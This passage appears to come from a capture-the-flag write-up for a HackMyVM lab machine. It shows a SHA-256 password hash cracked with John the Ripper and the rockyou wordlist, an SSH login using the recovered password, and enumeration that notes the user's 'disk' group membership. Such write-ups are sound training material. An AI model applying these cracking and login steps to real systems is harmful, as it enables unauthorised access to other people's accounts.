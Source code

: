 `vim ./coralie_hash.txt`:
```
9bf4bc753cfb7e1abafb74ec6e3e22e7d47622d2f39a2652b405d34fd50f023e
```

`john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt ./coralie_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
my2monkeys       (?) ←
1g 0:00:00:00 DONE (2024-10-16 10:38) 6.250g/s 2662Kp/s 2662Kc/s 2662KC/s remmer..colts8
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

`ssh coralie@192.168.56.142`:
```
coralie@192.168.56.142's password: 
Linux metamorphose.hmv 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 28 11:18:43 2024
```

![Victim: coralie](https://img.shields.io/badge/Victim-coralie-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
coralie ←
```

`id`:
```
uid=1001(coralie) gid=1001(coralie) groups=1001(coralie),6(disk)
```

`cd /home/coralie`

`ls -alps ./`:
```
total 24
4 drwx------ 2 coralie coralie 4096 Feb 26  2024 ./
4 drwxr-xr-x 4 root    root    4096 Feb 26  2024 ../
0 lrwxrwxrwx 1 root    root       9 Feb 26  2024 .bash_history -> /dev/null
4 -rw-r--r-- 1 coralie coralie  220 Feb 26  2024 .bash_logout
4 -rw-r--r-- 1 coralie coralie 3526 Feb 26  2024 .bashrc
4 -rw-r--r-- 1 coralie coralie  807 Feb 26  2024 .profile
4 -rwx------ 1 coralie coralie   33 Feb 26  2024 user.txt ←
```
